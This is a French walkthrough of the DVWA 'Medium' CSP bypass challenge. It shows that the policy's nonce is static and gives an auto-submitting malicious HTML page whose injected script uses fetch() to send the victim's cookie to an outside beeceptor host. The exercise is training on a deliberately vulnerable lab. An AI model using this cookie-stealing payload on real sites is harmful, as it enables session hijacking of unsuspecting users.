






# Niveau "Medium"

Le niveau "Medium" invite à trouver une façon de déclencher une boite de dialogue Javascript :



J'analyse la nouvelle politique CSP pour ce niveau :



```markup
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```

Soit pour la directive `script-src` :

* `'self'` : Autorise l'exécution de ressources fournies par la même origine
* `'unsafe-inline'` : Autorise les scripts de type `<script></script>` (ou encore dans un event HTML par exemple)
* `'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='` : seul le script ayant ce nonce pourra être exécuté

Voici comment fonctionne le [`nonce`](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src):



Le nonce est donc un identifiant unique et renouvelé à chaque fois que le serveur transmet la politique CSP. De plus, il est important que ce nonce ne soit pas devinable (guessable) sans quoi un contournement de la politique CSP serait possible.

Un script autorisé portera alors le nonce comme ceci (ne pas oublier qu'une implémentation sécurisée portera un nonce doit dynamique) :

```markup
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">
  // Je suis un script autorisé car je connais le nonce
</script>
```

J'effectue quelques requêtes **`GET`** sur le endpoint `/csp` de DVWA : surprise le `nonce` ne change jamais :



Connaissant d'avance le `nonce`, il est alors facile de créer un script qui sera accepté par l'application :



Afin de piéger la victime, J'utilise la même technique que pour le niveau "Low" qui est de forger une page malicieuse effectuant la requête **`POST`** :

```markup
<html>
  <head>
    <title>Exploitation POST XSS</title>
  </head>

  <body>
    <p>Post reflected XSS !</p>
      <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
        <input type="text" name="include" value="<script nonce='TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='>fetch('https://cspbypass.free.beeceptor.com?cookie=' + document.cookie);</script>">
        <button type="submit">Envoyer le message</button>
      </form>

    <script>document.forms['postExploitXSS'].submit();</script>
    </body>
</html>
```

Finalement, lorsque l'utilisateur (authentifiée) visitera ma page, je récupèrera son jeton (la victime sera redirigée de mon site malicieux vers le challenge DVWA) :


